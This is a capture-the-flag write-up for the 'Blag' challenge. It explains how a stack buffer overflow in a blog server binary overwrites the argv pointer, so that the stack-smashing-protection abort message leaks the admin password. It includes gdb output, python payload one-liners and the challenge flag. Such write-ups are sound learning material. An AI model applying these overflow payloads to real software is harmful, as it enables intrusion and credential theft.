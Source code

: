 # Blag (180 points)


## Problem Overview

  You're given a binary for a blog server that has a bug. You must exploit this bug to get the flag out of the admin's post, which the server won't let you read under normal circumstances.
  
## The Process
   I'll have to admit, this one had me stumped until the last two hours of the competition
I spent probably 5 or 6 hours in total looking at the source. I found the initial buffer overflow within about 10 minutes, but I didn't know what to do with it.
   
```C
52:  readline(buf,sizeof(p->body),stdin); //buffer overflow 320 -> 32
```
   
Despite my initial hopes, this buffer overflow proved to be useless (or did it?) due to ProPolice Stack Smashing Protection (SSP). I'm sure a lot of you saw this:
```
*** stack smashing detected ***: ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42 terminated
```
   
   
  I gave up on this problem on the first day and came back to it with ~4 hours left in the competition. My teammates and I combed through the source again, and we concluded that the aforementioned buffer overflow was the only vulnerability in the program. I tried to overflow the buffer again, but this time with the full overflow size (320 bytes), and this time I got something interesting

```
$ python -c 'print "add\n" + "a\n" +"a\n" + "A"*320 + "\n"' | ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42

...
...


Segmentation fault (core dumped)
```

  For those of you who looked at the disassembly of the functions, this should surprise you. If the stack canary is not preserved (AKA if you overflow),then the program calls another function that aborts the program. This means that the segfault above has to have occurred somewhere in SSP's own code. Armed with this information, I got my google-fu on.
  
  I found [this pdf](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf) from Dragon Sector, a collegiate/professional CTF team. Incidentally, it also has the solution to [oneshot](oneshot_170_pts.md) in it. As it turns out, the error message from above gets the name of the program from the `argv` variable. We can overflow the pointer to this with the pointer to some other random string that we need. Namely the admin password.
  
```
$ gdb -q ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42
Reading symbols from ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42...(no debugging symbols found)...done.
gdb-peda$ p &adminpassword
$1 = (<data variable, no debug info> *) 0x804b080 <adminpassword>
gdb-peda$ q
$ $ python -c 'print "add\na\na\n"+"\x80\xb0\x04\x08"*76' | ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42
...
...
*** stack smashing detected ***: meme terminated
```

I picked 'meme' as my local admin password, but if you tried it remotely you would get the real admin password. From there you can just authorize yourself and get the flag!!

pwned.
##Flag
`tjctf{I_h3aRd_ab0u7_1t_oN_th3_1nterBlag!}`


